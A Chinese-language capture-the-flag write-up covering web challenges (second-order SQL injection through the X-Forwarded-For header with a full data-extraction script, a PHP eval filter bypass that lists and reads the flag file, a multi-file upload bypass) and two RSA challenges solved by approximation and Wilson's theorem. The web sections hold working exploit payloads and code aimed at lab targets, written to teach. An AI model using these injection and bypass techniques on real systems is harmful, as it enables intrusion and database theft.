


# web

## online_proxy

特征: 第一次登录后源代码内容有如下:


换一个**X-Forwarded-For** 后会发现currentip是根据xff判别的


那么有理由认为上一个ip被存储进了数据库中,并在每次检测到访问ip和上一个ip不同的时候就会改变数据库. 源码这里也写到了

```php
$result = query("select current_ip, last_ip from ip_log where uuid = '".addslashes($uuid)."'");
if(count($result) > 0) {
    if($ip !== $result[0]['current_ip']) {
        $last_ip = $result[0]['current_ip'];
        query("delete from ip_log where uuid='".addslashes($uuid)."'");
    } else {
        $last_ip = $result[0]['last_ip'];
    }
}
query("insert into ip_log values ('".addslashes($uuid)."', '".addslashes($ip)."', '$last_ip');");
die("\n<!-- Debug Info: \n Duration: $time s \n Current Ip: $ip ".($last_ip !== "" ? "\nLast Ip: ".$last_ip : "")." -->");
```

解法:

先用``1'|1|'1``作为xff访问网站网站 , 访问成功之后改变xff, 再次访问, 这个时候由于前后xff不一致, 原来存储进数据库currentip的ip被重新提取出来存进lastip项中, 如果这个lastip没有过滤的话,就可以造成**二次注入**, 事实上也确实如此, 但这个可能得猜......在第二次访问之后, payload被重新插入进数据库中, 带着第二次访问的xff来第三次访问这个网站,可以看到



成功执行了.

搬运赵师傅的脚本学习学习

```python
#!/usr/bin/env python3

import requests

target = "http://localhost:8302/"

def execute_sql(sql):
    print("[*]请求语句：" + sql)
    return_result = ""

    payload = "0'|length((" + sql + "))|'0"
    session = requests.session()
    r = session.get(target, headers={'X-Forwarded-For': payload})
    r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
    r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
    start_pos = r.text.find("Last Ip: ")
    end_pos = r.text.find(" -->", start_pos)
    length = int(r.text[start_pos + 9: end_pos])
    print("[+]长度：" + str(length))

    for i in range(1, length + 1, 5):
        payload = "0'|conv(hex(substr((" + sql + ")," + str(i) + ",5)),16,10)|'0"

        r = session.get(target, headers={'X-Forwarded-For': payload})
        r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
        r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})
        start_pos = r.text.find("Last Ip: ")
        end_pos = r.text.find(" -->", start_pos)
        result = int(r.text[start_pos + 9: end_pos])
        return_result += bytes.fromhex(hex(result)[2:]).decode('utf-8')

        print("[+]位置 " + str(i) + " 请求五位成功:" + bytes.fromhex(hex(result)[2:]).decode('utf-8'))

    return return_result
# 获取数据库
print("[+]获取成功：" + execute_sql("SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e'"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e' AND TABLE_NAME = 'F4l9_t4b1e' "))

# 获取表中内容
print("[+]获取成功：" + execute_sql("SELECT group_concat(F4l9_C01uMn) FROM F4l9_D4t4B45e.F4l9_t4b1e"))
```

5555555

在addslashes后插入数据在数据库中是这样的



第二行是提取出来不经过addslashes重新插入的结果

## easy_calc

https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/

```
hexdec(bin2hex('/'));
?+num=scandir(hex2bin(dechex(47))) #解码出来的会自动带上引号
hexdec(bin2hex('/f1agg'));
?+num=file_get_contents(hex2bin(dechex(52115961636711)))
```

源码是这么执行语句的

```php
 $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
```


## Simple UPload

```php
 <?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```

思路: 由于只对'file'文件做判断, 所以一旦上传多个文件就可以绕过,然后根据文件名的生成方式来爆破php文件位置.

# crypto

## RSA

题目给出了条件

```
n=117930806043507374325982291823027285148807239117987369609583515353889814856088099671454394340816761242974462268435911765045576377767711593100416932019831889059333166946263184861287975722954992219766493089630810876984781113645362450398009234556085330943125568377741065242183073882558834603430862598066786475299918395341014877416901185392905676043795425126968745185649565106322336954427505104906770493155723995382318346714944184577894150229037758434597242564815299174950147754426950251419204917376517360505024549691723683358170823416757973059354784142601436519500811159036795034676360028928301979780528294114933347127L

e=0x10001

(((y%x)**5)%(x%y))**2019+y**316+(y+1)/x=2683349182678714524247469512793476009861014781004924905484127480308161377768192868061561886577048646432382128960881487463427414176114486885830693959404989743229103516924432512724195654425703453612710310587164417035878308390676612592848750287387318129424195208623440294647817367740878211949147526287091298307480502897462279102572556822231669438279317474828479089719046386411971105448723910594710418093977044179949800373224354729179833393219827789389078869290217569511230868967647963089430594258815146362187250855166897553056073744582946148472068334167445499314471518357535261186318756327890016183228412253724L

p=gmpy2.next_prime(x*y*z)

q=gmpy2.next_prime(z)

c=104691362123417589582551926531991781182010115901906985242039858907478735399784169051363443219315680244232603533899657231603732323266992359436518422851277069852793135320396586515487921637920627272606974731853791181271097899570276732277312961775278934241404863519840373617638621536398209255347566027214411203044623463749518663685607627212717097166124505123129373333338412199099199928067759937853247401620571810107903873489834435586333677991755979431408011776165868218508677566291652682933956103976791630704584853343422052444254468560250747030329091301992578584871488469381826293759687914010014083275135171832587631422L

```

因为

```
2**(2019) > 26833491826787145242474...1422L
```

所以

```
((y%x)**5)%(x%y) = 1 或者 0
```

所以将这项忽略,再将(y+1)/x忽略

```
y 约等于26833491826787145242474...1422L的316次方
```

```
y 约等于83
```

然后(y+1)/x 必须为整数 ,结合上述条件可以轻易求得x=2.y=83

接下来

```
p = xyz + a
q = z + b
xyzz + xyzb + az + ab = n
```

忽略ab, az, xyzb, 求出z的近似值,然后这个值肯定比真实的z要大, 因此可以根据这个值循环减一带入运算来爆破p ,求出的p如果可以整除n就停下.

```python
import gmpy2
from Crypto.Util import number


n=117930806043507374325982291823027285148807239117987369609583515353889814856088099671454394340816761242974462268435911765045576377767711593100416932019831889059333166946263184861287975722954992219766493089630810876984781113645362450398009234556085330943125568377741065242183073882558834603430862598066786475299918395341014877416901185392905676043795425126968745185649565106322336954427505104906770493155723995382318346714944184577894150229037758434597242564815299174950147754426950251419204917376517360505024549691723683358170823416757973059354784142601436519500811159036795034676360028928301979780528294114933347127L

e=0x10001

c=104691362123417589582551926531991781182010115901906985242039858907478735399784169051363443219315680244232603533899657231603732323266992359436518422851277069852793135320396586515487921637920627272606974731853791181271097899570276732277312961775278934241404863519840373617638621536398209255347566027214411203044623463749518663685607627212717097166124505123129373333338412199099199928067759937853247401620571810107903873489834435586333677991755979431408011776165868218508677566291652682933956103976791630704584853343422052444254468560250747030329091301992578584871488469381826293759687914010014083275135171832587631422L

#  x=2
#  y = 83

#  z_close = gmpy2.iroot(n//166, 2)
z_close = 842868045681390934539739959201847552284980179958879667933078453950968566151662147267006293571765463137270594151138695778986165111380428806545593588078365331313084230014618714412959584843421586674162688321942889369912392031882620994944241987153078156389470370195514285850736541078623854327959382156753458023

while True:
    p_close = gmpy2.next_prime(166*z_close)
    if n % p_close == 0:
        p = p_close
        q = n // p
        break
    z_close -= 1

#  p = 139916095583110895133596833227506693679306709873174024876891023355860781981175916446323044732913066880786918629089023499311703408489151181886568535621008644997971982182426706592551291084007983387911006261442519635405457077292515085160744169867410973960652081452455371451222265819051559818441257438021073941183 
#  q = 842868045681390934539739959201847552284980179958879667933078453950968566151662147267006293571765463137270594151138695778986165111380428806545593588078365331313084230014618714412959584843421586674162688321942889369912392031882620994944241987153078156389470370195514285850736541078623854327959382156753458569

phi = (p-1) * (q-1)
d = gmpy2.invert(e, phi)

print number.long_to_bytes(pow(c,d,n))

```


 

## babyrsa

```python
import sympy
import random

def myGetPrime():
    A= getPrime(513)
    print(A)
    B=A-random.randint(1e3,1e5)
    print(B)
    return sympy.nextPrime((B!)%A)

p=myGetPrime()
#A1=21856963452461630437348278434191434000066076750419027493852463513469865262064340836613831066602300959772632397773487317560339056658299954464169264467234407
#B1=21856963452461630437348278434191434000066076750419027493852463513469865262064340836613831066602300959772632397773487317560339056658299954464169264467140596

q=myGetPrime()
#A2=16466113115839228119767887899308820025749260933863446888224167169857612178664139545726340867406790754560227516013796269941438076818194617030304851858418927
#B2=16466113115839228119767887899308820025749260933863446888224167169857612178664139545726340867406790754560227516013796269941438076818194617030304851858351026

r=myGetPrime()

n=p*q*r
#n=85492663786275292159831603391083876175149354309327673008716627650718160585639723100793347534649628330416631255660901307533909900431413447524262332232659153047067908693481947121069070451562822417357656432171870951184673132554213690123308042697361969986360375060954702920656364144154145812838558365334172935931441424096270206140691814662318562696925767991937369782627908408239087358033165410020690152067715711112732252038588432896758405898709010342467882264362733
c=pow(flag,e,n)

#e=0x1001

#c=75700883021669577739329316795450706204502635802310731477156998834710820770245219468703245302009998932067080383977560299708060476222089630209972629755965140317526034680452483360917378812244365884527186056341888615564335560765053550155758362271622330017433403027261127561225585912484777829588501213961110690451987625502701331485141639684356427316905122995759825241133872734362716041819819948645662803292418802204430874521342108413623635150475963121220095236776428

#so,what is the flag?

```

直接求b的阶乘是不可能的,递归达到最大限制次数也求不出来.

这里要用到威尔逊定理

> 判定一个数字是素数的充分必要条件:
>
> (p-1)! = -1 (mod p)

在这套题中可以发现``(-1)(A-1)(A-2)...(B+2)(B+1)``是``B!`` 关于A的逆元,然后就好求了

```python

import gmpy2
import sympy
from Crypto.Util import number

def myprime(a, b):
    ans = 1
    for i in range(b+1, a):
        ans = (ans *i) % a
    ans = -1 * ans
    num = gmpy2.invert(ans ,a)
    return sympy.nextprime(num)


A1=21856963452461630437348278434191434000066076750419027493852463513469865262064340836613831066602300959772632397773487317560339056658299954464169264467234407
B1=21856963452461630437348278434191434000066076750419027493852463513469865262064340836613831066602300959772632397773487317560339056658299954464169264467140596

p = myprime(A1, B1)

A2=16466113115839228119767887899308820025749260933863446888224167169857612178664139545726340867406790754560227516013796269941438076818194617030304851858418927
B2=16466113115839228119767887899308820025749260933863446888224167169857612178664139545726340867406790754560227516013796269941438076818194617030304851858351026

q = myprime(A2, B2)


n=85492663786275292159831603391083876175149354309327673008716627650718160585639723100793347534649628330416631255660901307533909900431413447524262332232659153047067908693481947121069070451562822417357656432171870951184673132554213690123308042697361969986360375060954702920656364144154145812838558365334172935931441424096270206140691814662318562696925767991937369782627908408239087358033165410020690152067715711112732252038588432896758405898709010342467882264362733

enc=75700883021669577739329316795450706204502635802310731477156998834710820770245219468703245302009998932067080383977560299708060476222089630209972629755965140317526034680452483360917378812244365884527186056341888615564335560765053550155758362271622330017433403027261127561225585912484777829588501213961110690451987625502701331485141639684356427316905122995759825241133872734362716041819819948645662803292418802204430874521342108413623635150475963121220095236776428

r = n /(p*q)
e=0x1001
phi = (p-1)*(q-1)*(r-1)

d = gmpy2.invert(e, phi)
m = pow(enc, d, n)
print number.long_to_bytes(m)

```

